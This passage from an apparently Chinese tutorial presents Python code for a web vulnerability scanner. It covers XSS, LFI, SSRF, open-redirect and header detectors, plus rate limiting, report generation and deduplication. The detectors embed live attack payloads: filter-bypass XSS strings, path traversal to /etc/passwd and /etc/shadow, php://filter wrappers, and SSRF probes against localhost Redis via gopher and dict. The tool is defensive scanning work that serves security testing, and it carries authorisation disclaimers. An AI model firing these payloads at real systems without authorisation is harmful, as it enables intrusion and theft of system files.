        '<scr<script>ipt>alert("{{MARKER}}")</scr</script>ipt>',  # 双写绕过
        '<SCRIPT>alert("{{MARKER}}")</SCRIPT>',                    # 大小写绕过
        '<<script>alert("{{MARKER}}")//<</script>',               # 嵌套绕过
        '',  # HTML实体绕过
    ]
    
    def detect_url(self, url: str, params: list, session: requests.Session, config) -> list:
        """检测URL参数中的XSS"""
        vulnerabilities = []
        parsed = urlparse(url)
        url_params = parse_qs(parsed.query)
        
        for param_name in params:
            if param_name not in url_params:
                continue
            
            marker = self._generate_marker()
            
            for payload_template in self.PAYLOADS:
                payload = payload_template.replace('{{MARKER}}', marker)
                
                test_params = {k: v[0] if isinstance(v, list) else v for k, v in url_params.items()}
                test_params[param_name] = payload
                test_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{urlencode(test_params)}"
                
                try:
                    response = session.get(test_url, timeout=config.timeout, allow_redirects=False)
                    
                    # 检查payload是否完整反射在响应中
                    if marker in response.text:
                        # 进一步确认反射在HTML上下文中（而非在属性值中被编码）
                        context = self._determine_context(response.text, marker)
                        
                        vulnerabilities.append({
                            'type': f'XSS (Reflected, {context} context)',
                            'url': url,
                            'param': param_name,
                            'payload': payload,
                            'evidence': f'Marker "{marker}" reflected in response',
                            'risk': 'Medium',
                            'details': {
                                'detection_method': 'Reflection',
                                'context': context,
                                'marker': marker,
                            }
                        })
                        break
                except requests.exceptions.RequestException:
                    continue
        
        return vulnerabilities
    
    def detect_form(self, form: dict, session: requests.Session, config) -> list:
        """检测表单中的XSS"""
        vulnerabilities = []
        marker = self._generate_marker()
        
        for payload_template in self.PAYLOADS[:5]:  # 控制请求数
            payload = payload_template.replace('{{MARKER}}', marker)
            
            data = {}
            for field in form['inputs']:
                if field['type'] in ('text', 'search', 'email', 'url', 'tel', 'textarea'):
                    data[field['name']] = payload
                elif field['type'] == 'hidden':
                    data[field['name']] = field['value']
            
            try:
                if form['method'] == 'post':
                    response = session.post(
                        form['action'], data=data,
                        timeout=config.timeout, allow_redirects=False
                    )
                else:
                    response = session.get(
                        form['action'], params=data,
                        timeout=config.timeout, allow_redirects=False
                    )
                
                if marker in response.text:
                    context = self._determine_context(response.text, marker)
                    vulnerabilities.append({
                        'type': f'XSS (Reflected via Form, {context} context)',
                        'url': form['action'],
                        'param': ', '.join(data.keys()),
                        'payload': payload,
                        'evidence': f'Marker "{marker}" reflected in form response',
                        'risk': 'Medium',
                        'details': {
                            'detection_method': 'Form reflection',
                            'context': context,
                        }
                    })
                    break
            except requests.exceptions.RequestException:
                continue
        
        return vulnerabilities
    
    def _generate_marker(self, length: int = 12) -> str:
        """生成随机标记字符串"""
        return ''.join(random.choices(string.ascii_lowercase, k=length))
    
    def _determine_context(self, html: str, marker: str) -> str:
        """判断XSS反射的上下文位置"""
        idx = html.find(marker)
        if idx == -1:
            return "unknown"
        
        # 取标记前后的上下文
        before = html[max(0, idx - 50):idx]
        after = html[idx + len(marker):idx + len(marker) + 50]
        
        # 判断上下文类型
        if '<script' in before.lower():
            return "JavaScript"
        elif any(f'"{marker}' in html[idx-5:idx+len(marker)+5] for _ in [1]):
            return "HTML attribute (double-quoted)"
        elif f"'{marker}" in html:
            return "HTML attribute (single-quoted)"
        elif 'href=' in before.lower() or 'src=' in before.lower():
            return "URL attribute"
        elif 'style' in before.lower():
            return "CSS"
        else:
            return "HTML body"


class LFIDetector(BaseDetector):
    """
    本地文件包含(LFI)检测器
    检测参数值是否被用作文件路径
    """
    
    name = "Local/Remote File Inclusion"
    risk_level = "High"
    
    LFI_PAYLOADS = [
        # Unix文件包含
        ("../../../../etc/passwd", ["root:", "daemon:", "nobody:"]),
        ("../../../../etc/shadow", ["root:", "$6$"]),
        ("../../../../etc/hosts", ["localhost", "127.0.0.1"]),
        ("/etc/passwd%00", ["root:", "daemon:"]),  # 空字节截断
        
        # Windows文件包含
        ("..\\..\\..\\..\\windows\\win.ini", ["[fonts]", "[extensions]"]),
        ("..\\..\\..\\..\\windows\\system32\\drivers\\etc\\hosts", ["localhost"]),
        
        # PHP包装器
        ("php://filter/convert.base64-encode/resource=/etc/passwd", ["cm9vd"]),  # base64("root")
        ("php://input", []),  # 需要POST数据
        
        # 日志注入预检测
        ("../../../../var/log/apache2/access.log", ["GET ", "POST "]),
        ("/proc/self/environ", ["PATH=", "HOME="]),
    ]
    
    def detect_url(self, url: str, params: list, session: requests.Session, config) -> list:
        """检测URL参数中的LFI"""
        vulnerabilities = []
        parsed = urlparse(url)
        url_params = parse_qs(parsed.query)
        
        for param_name in params:
            if param_name not in url_params:
                continue
            
            for payload, indicators in self.LFI_PAYLOADS:
                test_params = {k: v[0] if isinstance(v, list) else v for k, v in url_params.items()}
                test_params[param_name] = payload
                test_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{urlencode(test_params)}"
                
                try:
                    response = session.get(test_url, timeout=config.timeout, allow_redirects=False)
                    
                    for indicator in indicators:
                        if indicator in response.text:
                            vulnerabilities.append({
                                'type': 'Local File Inclusion',
                                'url': url,
                                'param': param_name,
                                'payload': payload,
                                'evidence': f'File content indicator: "{indicator}"',
                                'risk': 'High',
                                'details': {
                                    'indicator_found': indicator,
                                    'file_path': payload.split('?')[0] if '?' in payload else payload,
                                }
                            })
                            break
                    
                    if any(ind in response.text for ind in indicators):
                        break
                except requests.exceptions.RequestException:
                    continue
        
        return vulnerabilities
    
    def detect_form(self, form: dict, session: requests.Session, config) -> list:
        """表单中的LFI检测（较少使用，因为LFI通常在URL参数中）"""
        return []  # LFI极少通过表单参数触发，此处省略


class SSRFDetector(BaseDetector):
    """
    服务端请求伪造(SSRF)检测器
    检测参数是否能触发服务端发起HTTP请求
    """
    
    name = "Server-Side Request Forgery (SSRF)"
    risk_level = "High"
    
    # 使用可以验证的服务端请求标记
    # 推荐配合 webhook.site 或 collaborator 类服务使用
    SSRF_PAYLOADS = [
        ("http://127.0.0.1", ["Connection refused", "localhost"]),
        ("http://localhost", ["Connection refused", "localhost"]),
        ("http://[::1]", ["Connection refused"]),  # IPv6 localhost
        ("http://0x7f000001", []),  # 十六进制IP
        ("http://2130706433", []),  # 十进制IP
        ("http://017700000001", []),  # 八进制IP
        ("file:///etc/passwd", ["root:", "daemon:"]),
        ("dict://127.0.0.1:6379/info", ["redis_version"]),
        ("gopher://127.0.0.1:6379/_info", ["redis_version"]),
    ]
    
    def detect_url(self, url: str, params: list, session: requests.Session, config) -> list:
        """检测URL参数中的SSRF"""
        vulnerabilities = []
        parsed = urlparse(url)
        url_params = parse_qs(parsed.query)
        
        for param_name in params:
            if param_name not in url_params:
                continue
            
            # 只测试看起来像URL的参数
            original_value = url_params[param_name]
            if isinstance(original_value, list):
                original_value = original_value[0]
            
            # 参数名或值暗示URL功能
            url_indicators = ['url', 'uri', 'link', 'src', 'dest', 'redirect',
                              'callback', 'webhook', 'feed', 'image', 'file',
                              'path', 'document', 'ref']
            is_url_param = any(ind in param_name.lower() for ind in url_indicators)
            is_url_value = original_value.startswith(('http://', 'https://', 'ftp://', '//'))
            
            if not (is_url_param or is_url_value):
                continue
            
            for payload, indicators in self.SSRF_PAYLOADS:
                test_params = {k: v[0] if isinstance(v, list) else v for k, v in url_params.items()}
                test_params[param_name] = payload
                test_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{urlencode(test_params)}"
                
                try:
                    response = session.get(test_url, timeout=config.timeout, allow_redirects=False)
                    
                    # 检查响应中是否包含内部服务的特征
                    for indicator in indicators:
                        if indicator.lower() in response.text.lower():
                            vulnerabilities.append({
                                'type': 'Server-Side Request Forgery (SSRF)',
                                'url': url,
                                'param': param_name,
                                'payload': payload,
                                'evidence': f'Internal service response: "{indicator}"',
                                'risk': 'High',
                                'details': {
                                    'target': payload,
                                    'indicator': indicator,
                                }
                            })
                            break
                    
                    if any(ind.lower() in response.text.lower() for ind in indicators):
                        break
                except requests.exceptions.RequestException:
                    continue
        
        return vulnerabilities
    
    def detect_form(self, form: dict, session: requests.Session, config) -> list:
        """SSRF通常不通过表单触发"""
        return []


class OpenRedirectDetector(BaseDetector):
    """
    开放重定向检测器
    检测参数是否能触发服务端重定向到任意URL
    """
    
    name = "Open Redirect"
    risk_level = "Medium"
    
    REDIRECT_MARKER = "redir-test-8f3k2m"
    REDIRECT_PAYLOADS = [
        f"https://{REDIRECT_MARKER}.example.com",
        f"//{REDIRECT_MARKER}.example.com",
        f"//{REDIRECT_MARKER}.example.com/",
        f"\\\\{REDIRECT_MARKER}.example.com",
    ]
    
    def detect_url(self, url: str, params: list, session: requests.Session, config) -> list:
        """检测URL参数中的开放重定向"""
        vulnerabilities = []
        parsed = urlparse(url)
        url_params = parse_qs(parsed.query)
        
        redirect_params = ['url', 'redirect', 'next', 'return', 'goto',
                          'continue', 'dest', 'destination', 'redir',
                          'redirect_uri', 'return_url', 'checkout_url',
                          'return_to', 'ref', 'back', 'from']
        
        for param_name in params:
            if param_name not in url_params:
                continue
            
            is_redirect_param = any(rp in param_name.lower() for rp in redirect_params)
            if not is_redirect_param:
                continue
            
            for payload in self.REDIRECT_PAYLOADS:
                test_params = {k: v[0] if isinstance(v, list) else v for k, v in url_params.items()}
                test_params[param_name] = payload
                test_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{urlencode(test_params)}"
                
                try:
                    # 不跟随重定向，只检查响应头
                    response = session.get(test_url, timeout=config.timeout, allow_redirects=False)
                    
                    location = response.headers.get('Location', '')
                    if self.REDIRECT_MARKER in location:
                        vulnerabilities.append({
                            'type': 'Open Redirect',
                            'url': url,
                            'param': param_name,
                            'payload': payload,
                            'evidence': f'Redirect to: {location}',
                            'risk': 'Medium',
                            'details': {
                                'redirect_url': location,
                                'status_code': response.status_code,
                            }
                        })
                        break
                except requests.exceptions.RequestException:
                    continue
        
        return vulnerabilities
    
    def detect_form(self, form: dict, session: requests.Session, config) -> list:
        """表单中的开放重定向检测"""
        return []


class HTTPHeaderDetector(BaseDetector):
    """
    HTTP安全头检测器（被动检测）
    检查响应头中缺失的安全配置
    """
    
    name = "Insecure HTTP Headers"
    risk_level = "Low"
    
    # 安全头检查规则
    SECURITY_HEADERS = {
        'Strict-Transport-Security': {
            'description': 'HSTS未设置，客户端可能被降级到HTTP',
            'risk': 'Medium',
            'recommendation': '添加 Strict-Transport-Security: max-age=31536000; includeSubDomains',
        },
        'Content-Security-Policy': {
            'description': 'CSP未设置，无法防止XSS和数据注入攻击',
            'risk': 'Medium',
            'recommendation': '至少设置基本的CSP策略',
        },
        'X-Content-Type-Options': {
            'description': '未设置nosniff，浏览器可能进行MIME类型嗅探',
            'risk': 'Low',
            'recommendation': '添加 X-Content-Type-Options: nosniff',
        },
        'X-Frame-Options': {
            'description': '未设置X-Frame-Options，页面可能被iframe嵌入（点击劫持）',
            'risk': 'Medium',
            'recommendation': '添加 X-Frame-Options: DENY 或 SAMEORIGIN',
        },
        'X-XSS-Protection': {
            'description': '未启用浏览器XSS过滤器（兼容性考虑）',
            'risk': 'Low',
            'recommendation': '添加 X-XSS-Protection: 1; mode=block',
        },
        'Referrer-Policy': {
            'description': '未设置Referrer策略，可能泄露敏感URL信息',
            'risk': 'Low',
            'recommendation': '添加 Referrer-Policy: strict-origin-when-cross-origin',
        },
        'Permissions-Policy': {
            'description': '未设置权限策略，可能暴露摄像头、麦克风等敏感API',
            'risk': 'Low',
            'recommendation': '根据需要限制敏感API的使用',
        },
    }
    
    def detect_url(self, url: str, params: list, session: requests.Session, config) -> list:
        """检测HTTP安全头（URL是扫描入口）"""
        vulnerabilities = []
        
        try:
            response = session.get(url, timeout=config.timeout, allow_redirects=True)
            
            for header_name, rule in self.SECURITY_HEADERS.items():
                if header_name.lower() not in [h.lower() for h in response.headers.keys()]:
                    vulnerabilities.append({
                        'type': f'Missing Security Header: {header_name}',
                        'url': url,
                        'param': 'HTTP Header',
                        'payload': 'N/A',
                        'evidence': rule['description'],
                        'risk': rule['risk'],
                        'details': {
                            'missing_header': header_name,
                            'recommendation': rule['recommendation'],
                        }
                    })
            
            # 检查Cookie安全属性
            for cookie in response.cookies:
                cookie_issues = []
                if not cookie.secure:
                    cookie_issues.append('Secure flag not set')
                if 'httponly' not in str(cookie).lower():
                    cookie_issues.append('HttpOnly flag not set')
                if not cookie.has_nonstandard_attr('SameSite'):
                    cookie_issues.append('SameSite attribute not set')
                
                if cookie_issues:
                    vulnerabilities.append({
                        'type': f'Insecure Cookie: {cookie.name}',
                        'url': url,
                        'param': 'Cookie',
                        'payload': 'N/A',
                        'evidence': '; '.join(cookie_issues),
                        'risk': 'Low',
                        'details': {
                            'cookie_name': cookie.name,
                            'issues': cookie_issues,
                        }
                    })
            
            # 检查是否泄露服务器版本信息
            server_header = response.headers.get('Server', '')
            if server_header and any(v in server_header.lower() for v in ['/', 'apache/', 'nginx/', 'php/']):
                vulnerabilities.append({
                    'type': 'Server Version Disclosure',
                    'url': url,
                    'param': 'Server Header',
                    'payload': 'N/A',
                    'evidence': f'Server header reveals: {server_header}',
                    'risk': 'Low',
                    'details': {'server_header': server_header},
                })
                
        except requests.exceptions.RequestException:
            pass
        
        return vulnerabilities
    
    def detect_form(self, form: dict, session: requests.Session, config) -> list:
        """HTTP头检测不适用于表单"""
        return []


class VulnerabilityDetector:
    """
    漏洞检测引擎主类
    统一管理所有检测器，提供插件式扩展接口
    """
    
    def __init__(self, config):
        self.config = config
        self.session = requests.Session()
        self.session.headers.update({
            'User-Agent': config.user_agent,
        })
        
        if config.proxy:
            self.session.proxies = {'http': config.proxy, 'https': config.proxy}
        self.session.verify = config.verify_ssl
        
        # Cookie注入认证
        if config.auth_type == 'cookie' and config.auth_cookie:
            for pair in config.auth_cookie.split(';'):
                if '=' in pair:
                    name, value = pair.strip().split('=', 1)
                    self.session.cookies.set(name.strip(), value.strip())
        
        # 注册检测器
        self.detectors = []
        self._register_detectors()
    
    def _register_detectors(self):
        """根据配置注册检测器"""
        detector_map = {
            'detect_sqli': SQLInjectionDetector,
            'detect_xss': XSSDetector,
            'detect_lfi': LFIDetector,
            'detect_ssrf': SSRFDetector,
            'detect_redirect': OpenRedirectDetector,
            'detect_headers': HTTPHeaderDetector,
        }
        
        for config_key, detector_class in detector_map.items():
            if getattr(self.config, config_key, False):
                self.detectors.append(detector_class())
        
        registered = [d.name for d in self.detectors]
        logging.info(f"[*] Registered detectors: {', '.join(registered)}")
    
    def detect_url(self, url: str, params: list = None) -> list:
        """对URL执行所有已注册的检测"""
        vulnerabilities = []
        
        for detector in self.detectors:
            try:
                vulns = detector.detect_url(url, params or [], self.session, self.config)
                if vulns:
                    vulnerabilities.extend(vulns)
                    logger.info(f"  [!] {detector.name}: found {len(vulns)} issue(s) at {url}")
            except Exception as e:
                logger.error(f"  [-] {detector.name} error at {url}: {e}")
        
        return vulnerabilities
    
    def detect_form(self, form: dict) -> list:
        """对表单执行所有已注册的检测"""
        vulnerabilities = []
        
        for detector in self.detectors:
            try:
                vulns = detector.detect_form(form, self.session, self.config)
                if vulns:
                    vulnerabilities.extend(vulns)
                    logger.info(f"  [!] {detector.name}: found {len(vulns)} issue(s) in form at {form['action']}")
            except Exception as e:
                logger.error(f"  [-] {detector.name} error in form: {e}")
        
        return vulnerabilities
```

### 速率控制模块

没有速率控制的扫描器就是一台DoS机器。专业的扫描器必须实现请求速率控制，既保护目标系统不被压垮，也降低被WAF封禁的风险。

```python
"""
速率控制模块
实现令牌桶算法，平滑控制请求速率
"""

import time
import threading


class RateLimiter:
    """
    基于令牌桶(Token Bucket)算法的速率限制器
    
    原理：桶中以固定速率填充令牌，每次请求消耗一个令牌。
    令牌耗尽时等待新令牌填充。支持突发流量（桶有容量上限）。
    """
    
    def __init__(self, requests_per_second: float = 10.0, burst_size: int = 20):
        self.rate = requests_per_second        # 每秒产生的令牌数
        self.burst_size = burst_size           # 桶的最大容量
        self.tokens = burst_size               # 当前桶中的令牌数
        self.last_refill = time.monotonic()    # 上次填充时间
        self.lock = threading.Lock()
    
    def acquire(self):
        """获取一个令牌（如果需要等待则阻塞）"""
        while True:
            with self.lock:
                self._refill()
                if self.tokens >= 1:
                    self.tokens -= 1
                    return
            # 令牌不足，等待一段时间后再尝试
            time.sleep(1.0 / self.rate)
    
    def _refill(self):
        """根据经过的时间补充令牌"""
        now = time.monotonic()
        elapsed = now - self.last_refill
        new_tokens = elapsed * self.rate
        self.tokens = min(self.burst_size, self.tokens + new_tokens)
        self.last_refill = now


class DelayedSession:
    """
    带速率控制的HTTP会话封装
    每次请求前自动等待速率控制
    """
    
    def __init__(self, session, rate_limiter: RateLimiter):
        self.session = session
        self.limiter = rate_limiter
        self.request_count = 0
    
    def get(self, url, **kwargs):
        self.limiter.acquire()
        self.request_count += 1
        return self.session.get(url, **kwargs)
    
    def post(self, url, **kwargs):
        self.limiter.acquire()
        self.request_count += 1
        return self.session.post(url, **kwargs)
```

### 报告生成模块

```python
"""
报告生成模块
支持HTML、JSON、SARIF、Markdown四种格式
"""

import json
from datetime import datetime
from collections import Counter

from jinja2 import Template


class ReportGenerator:
    """多格式漏洞报告生成器"""
    
    def generate(self, vulnerabilities: list, output_file: str):
        """根据输出文件扩展名选择格式"""
        if output_file.endswith('.html'):
            self._generate_html(vulnerabilities, output_file)
        elif output_file.endswith('.json'):
            self._generate_json(vulnerabilities, output_file)
        elif output_file.endswith('.sarif'):
            self._generate_sarif(vulnerabilities, output_file)
        elif output_file.endswith('.md'):
            self._generate_markdown(vulnerabilities, output_file)
        else:
            self._generate_text(vulnerabilities, output_file)
    
    def _generate_html(self, vulnerabilities: list, output_file: str):
        """生成HTML报告"""
        # 统计信息
        risk_counts = Counter(v['risk'] for v in vulnerabilities)
        type_counts = Counter(v['type'].split('(')[0].strip() for v in vulnerabilities)
        
        template = Template('''
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Web漏洞扫描报告</title>
    <style>
        * { margin: 0; padding: 0; box-sizing: border-box; }
        body { font-family: -apple-system, "Microsoft YaHei", sans-serif; background: #f5f5f5; color: #333; }
        .container { max-width: 1200px; margin: 0 auto; padding: 20px; }
        .header { background: linear-gradient(135deg, #1a1a2e, #16213e); color: white; padding: 40px; border-radius: 8px; margin-bottom: 24px; }
        .header h1 { font-size: 28px; margin-bottom: 8px; }
        .header .meta { color: #aaa; font-size: 14px; }
        .summary { display: grid; grid-template-columns: repeat(auto-fit, minmax(200px, 1fr)); gap: 16px; margin-bottom: 24px; }
        .summary-card { background: white; padding: 24px; border-radius: 8px; text-align: center; box-shadow: 0 2px 8px rgba(0,0,0,0.08); }
        .summary-card .number { font-size: 36px; font-weight: bold; }
        .summary-card .label { color: #666; margin-top: 4px; }
        .risk-high .number { color: #e74c3c; }
        .risk-medium .number { color: #f39c12; }
        .risk-low .number { color: #3498db; }
        .vuln-list { background: white; border-radius: 8px; box-shadow: 0 2px 8px rgba(0,0,0,0.08); overflow: hidden; }
        .vuln-item { border-left: 4px solid #ddd; padding: 20px; margin: 0; border-bottom: 1px solid #eee; }
        .vuln-item:last-child { border-bottom: none; }
        .vuln-item.high { border-left-color: #e74c3c; }
        .vuln-item.medium { border-left-color: #f39c12; }
        .vuln-item.low { border-left-color: #3498db; }
        .vuln-title { font-size: 16px; font-weight: 600; margin-bottom: 8px; }
        .vuln-detail { display: grid; grid-template-columns: 120px 1fr; gap: 4px 12px; font-size: 14px; color: #555; }
        .vuln-detail dt { font-weight: 500; color: #333; }
        .vuln-detail dd { word-break: break-all; }
        .vuln-payload { background: #f8f9fa; padding: 8px 12px; border-radius: 4px; font-family: monospace; font-size: 13px; }
        .badge { display: inline-block; padding: 2px 8px; border-radius: 4px; font-size: 12px; font-weight: 600; color: white; }
        .badge.high { background: #e74c3c; }
        .badge.medium { background: #f39c12; }
        .badge.low { background: #3498db; }
        .footer { text-align: center; padding: 24px; color: #999; font-size: 12px; }
        .disclaimer { background: #fff3cd; border: 1px solid #ffc107; border-radius: 8px; padding: 16px; margin-bottom: 24px; font-size: 13px; }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>Web漏洞扫描报告</h1>
            <div class="meta">
                目标: {{ target_url }} | 生成时间: {{ timestamp }} | 扫描器: WebScanner v1.0
            </div>
        </div>
        
        <div class="disclaimer">
            ⚠️ 本报告仅供授权安全测试使用。报告中发现的漏洞应在负责任的披露流程下通知目标方。
            请确保您已获得目标系统的书面授权。
        </div>
        
        <div class="summary">
            <div class="summary-card">
                <div class="number">{{ vulns|length }}</div>
                <div class="label">漏洞总数</div>
            </div>
            <div class="summary-card risk-high">
                <div class="number">{{ vulns|selectattr('risk', 'equalto', 'High')|list|length }}</div>
                <div class="label">高危漏洞</div>
            </div>
            <div class="summary-card risk-medium">
                <div class="number">{{ vulns|selectattr('risk', 'equalto', 'Medium')|list|length }}</div>
                <div class="label">中危漏洞</div>
            </div>
            <div class="summary-card risk-low">
                <div class="number">{{ vulns|selectattr('risk', 'equalto', 'Low')|list|length }}</div>
                <div class="label">低危漏洞</div>
            </div>
        </div>
        
        <h2 style="margin-bottom: 16px;">漏洞详情</h2>
        <div class="vuln-list">
            
            <div class="vuln-item {{ vuln.risk|lower }}">
                <div class="vuln-title">
                    {{ vuln.type }}
                    <span class="badge {{ vuln.risk|lower }}">{{ vuln.risk }}</span>
                </div>
                <dl class="vuln-detail">
                    <dt>URL</dt><dd>{{ vuln.url }}</dd>
                    <dt>参数</dt><dd>{{ vuln.param }}</dd>
                    <dt>Payload</dt><dd class="vuln-payload">{{ vuln.payload }}</dd>
                    <dt>证据</dt><dd>{{ vuln.evidence }}</dd>
                </dl>
            </div>
            
        </div>
        
        
        <div style="background: white; padding: 40px; text-align: center; border-radius: 8px; margin-top: 16px;">
            <h2 style="color: #27ae60;">✅ 未发现漏洞</h2>
            <p style="color: #666; margin-top: 8px;">扫描未发现安全问题，但不代表系统绝对安全</p>
        </div>
        
        
        <div class="footer">
            WebScanner v1.0 | Generated {{ timestamp }}
        </div>
    </div>
</body>
</html>
        ''')
        
        html = template.render(
            target_url=getattr(self, '_target_url', 'N/A'),
            timestamp=datetime.now().strftime('%Y-%m-%d %H:%M:%S'),
            vulns=vulnerabilities,
        )
        
        with open(output_file, 'w', encoding='utf-8') as f:
            f.write(html)
    
    def _generate_json(self, vulnerabilities: list, output_file: str):
        """生成JSON报告"""
        report = {
            'scanner': 'WebScanner v1.0',
            'timestamp': datetime.now().isoformat(),
            'summary': {
                'total': len(vulnerabilities),
                'high': sum(1 for v in vulnerabilities if v['risk'] == 'High'),
                'medium': sum(1 for v in vulnerabilities if v['risk'] == 'Medium'),
                'low': sum(1 for v in vulnerabilities if v['risk'] == 'Low'),
            },
            'vulnerabilities': vulnerabilities,
        }
        
        with open(output_file, 'w', encoding='utf-8') as f:
            json.dump(report, f, indent=2, ensure_ascii=False)
    
    def _generate_sarif(self, vulnerabilities: list, output_file: str):
        """
        生成SARIF格式报告（Static Analysis Results Interchange Format）
        SARIF是OASIS标准，可被GitHub Code Scanning、VS Code SARIF Viewer等工具直接解析
        """
        results = []
        rules = {}
        
        for vuln in vulnerabilities:
            rule_id = vuln['type'].split('(')[0].strip().replace(' ', '_').lower()
            
            if rule_id not in rules:
                rules[rule_id] = {
                    'id': rule_id,
                    'name': vuln['type'],
                    'shortDescription': {'text': vuln['type']},
                    'defaultConfiguration': {
                        'level': 'error' if vuln['risk'] == 'High' else 'warning'
                    },
                }
            
            result = {
                'ruleId': rule_id,
                'message': {'text': f"{vuln['evidence']}\nPayload: {vuln['payload']}"},
                'locations': [{
                    'physicalLocation': {
                        'artifactLocation': {'uri': vuln['url']},
                        'region': {'startLine': 1},
                    }
                }],
                'properties': {
                    'param': vuln['param'],
                    'risk': vuln['risk'],
                },
            }
            results.append(result)
        
        sarif = {
            '$schema': 'https://raw.githubusercontent.com/oasis-tcs/sarif-spec/master/Schemata/sarif-schema-2.1.0.json',
            'version': '2.1.0',
            'runs': [{
                'tool': {
                    'driver': {
                        'name': 'WebScanner',
                        'version': '1.0.0',
                        'rules': list(rules.values()),
                    }
                },
                'results': results,
            }],
        }
        
        with open(output_file, 'w', encoding='utf-8') as f:
            json.dump(sarif, f, indent=2, ensure_ascii=False)
    
    def _generate_markdown(self, vulnerabilities: list, output_file: str):
        """生成Markdown格式报告"""
        risk_counts = Counter(v['risk'] for v in vulnerabilities)
        
        lines = [
            f"# Web漏洞扫描报告",
            f"",
            f"**生成时间**: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}",
            f"",
            f"## 扫描摘要",
            f"",
            f"| 风险等级 | 数量 |",
            f"|----------|------|",
            f"| 🔴 高危 | {risk_counts.get('High', 0)} |",
            f"| 🟡 中危 | {risk_counts.get('Medium', 0)} |",
            f"| 🔵 低危 | {risk_counts.get('Low', 0)} |",
            f"| **总计** | **{len(vulnerabilities)}** |",
            f"",
            f"## 漏洞详情",
            f"",
        ]
        
        for i, vuln in enumerate(vulnerabilities, 1):
            emoji = '🔴' if vuln['risk'] == 'High' else ('🟡' if vuln['risk'] == 'Medium' else '🔵')
            lines.extend([
                f"### {i}. {emoji} {vuln['type']}",
                f"",
                f"- **URL**: `{vuln['url']}`",
                f"- **参数**: `{vuln['param']}`",
                f"- **Payload**: `{vuln['payload']}`",
                f"- **证据**: {vuln['evidence']}",
                f"- **风险**: {vuln['risk']}",
                f"",
            ])
        
        if not vulnerabilities:
            lines.append("✅ 未发现漏洞")
        
        with open(output_file, 'w', encoding='utf-8') as f:
            f.write('\n'.join(lines))
    
    def _generate_text(self, vulnerabilities: list, output_file: str):
        """生成纯文本报告"""
        with open(output_file, 'w', encoding='utf-8') as f:
            f.write("=" * 60 + "\n")
            f.write("Web漏洞扫描报告\n")
            f.write("=" * 60 + "\n\n")
            f.write(f"生成时间: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}\n")
            f.write(f"漏洞总数: {len(vulnerabilities)}\n\n")
            
            for i, vuln in enumerate(vulnerabilities, 1):
                f.write(f"漏洞 #{i} [{vuln['risk']}]\n")
                f.write("-" * 40 + "\n")
                f.write(f"类型: {vuln['type']}\n")
                f.write(f"URL:   {vuln['url']}\n")
                f.write(f"参数:  {vuln['param']}\n")
                f.write(f"Payload: {vuln['payload']}\n")
                f.write(f"证据:  {vuln['evidence']}\n\n")
```

### 去重引擎

扫描过程中同一个漏洞可能被多次发现（不同payload触发同一参数的同一漏洞类型）。去重引擎通过多维度相似度比对，过滤重复结果。

```python
"""
漏洞去重引擎
通过多维度相似度比对过滤重复的漏洞报告
"""

from typing import List, Dict
from urllib.parse import urlparse, parse_qs


class VulnerabilityDeduplicator:
    """
    漏洞去重器
    
    去重策略（四层过滤）：
    1. URL + 参数名 + 漏洞类型 精确匹配去重
    2. 同一参数的同类型漏洞只保留最高风险等级
    3. 相似Payload去重（如 ' OR 1=1 和 ' OR 2=2 视为同一漏洞）
    4. 基于证据文本的模糊去重
    """
    
    def __init__(self):
        self.seen = {}  # key: (url, param, type) -> vuln dict
    
    def deduplicate(self, vulnerabilities: List[Dict]) -> List[Dict]:
        """去重并返回唯一漏洞列表"""
        self.seen = {}
        
        # 按风险等级排序（High > Medium > Low），确保高风险优先保留
        risk_order = {'High': 0, 'Medium': 1, 'Low': 2}
        sorted_vulns = sorted(vulnerabilities, key=lambda v: risk_order.get(v.get('risk', 'Low'), 3))
        
        for vuln in sorted_vulns:
            key = self._make_key(vuln)
            
            if key not in self.seen:
                # 新漏洞，直接添加
                self.seen[key] = vuln
            else:
                # 已存在，检查是否需要更新
                existing = self.seen[key]
                if risk_order.get(vuln.get('risk'), 3) < risk_order.get(existing.get('risk'), 3):
                    # 新漏洞风险更高，替换
                    self.seen[key] = vuln
        
        return list(self.seen.values())
    
    def _make_key(self, vuln: Dict) -> tuple:
        """生成去重键"""
        # 标准化漏洞类型（去掉括号中的子类型）
        vuln_type = vuln.get('type', '').split('(')[0].strip()
        
        # 标准化参数名
        param = vuln.get('param', '').strip()
        
        # 标准化URL（去除查询参数的值差异）
        url = vuln.get('url', '')
        parsed = urlparse(url)
        normalized_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}"
        
        return (normalized_url, param, vuln_type)
```

### 主程序入口

```python
#!/usr/bin/env python3
"""
Web漏洞扫描器 - 主程序

功能：
  - 自动爬取目标网站，发现所有可测试的URL和表单
  - 检测SQL注入、XSS、文件包含、SSRF、命令注入、开放重定向等多种漏洞
  - 检测HTTP安全头和Cookie配置
  - 生成HTML/JSON/SARIF/Markdown格式的扫描报告

用法：
  python scanner.py -u https://target.com -o report.html
  python scanner.py -u https://target.com --auth-cookie "session=abc123" --depth 3
  python scanner.py --config scan_config.json

法律声明：仅限在获得授权的目标上使用。未经授权的扫描属于违法行为。
"""

import argparse
import sys
import logging
import time
from datetime import datetime

from webscanner.crawler import WebCrawler
from webscanner.detector import VulnerabilityDetector
from webscanner.reporter import ReportGenerator
from webscanner.dedup import VulnerabilityDeduplicator
from webscanner.rate_limiter import RateLimiter, DelayedSession
from webscanner.config import ScannerConfig


def setup_logging(verbose: bool = False):
    """配置日志"""
    level = logging.DEBUG if verbose else logging.INFO
    logging.basicConfig(
        level=level,
        format='%(asctime)s [%(levelname)s] %(message)s',
        datefmt='%H:%M:%S',
    )


class WebScanner:
    """Web漏洞扫描器主类"""
    
    def __init__(self, config: ScannerConfig):
        self.config = config
        self.crawler = WebCrawler(config.target_url, config)
        self.detector = VulnerabilityDetector(config)
        self.reporter = ReportGenerator()
        self.deduplicator = VulnerabilityDeduplicator()
        
        # 速率控制
        self.rate_limiter = RateLimiter(
            requests_per_second=config.requests_per_second,
            burst_size=config.burst_size,
        )
        
        self.results = []
        self.start_time = None
    
    def run(self) -> list:
        """执行完整的扫描流程"""
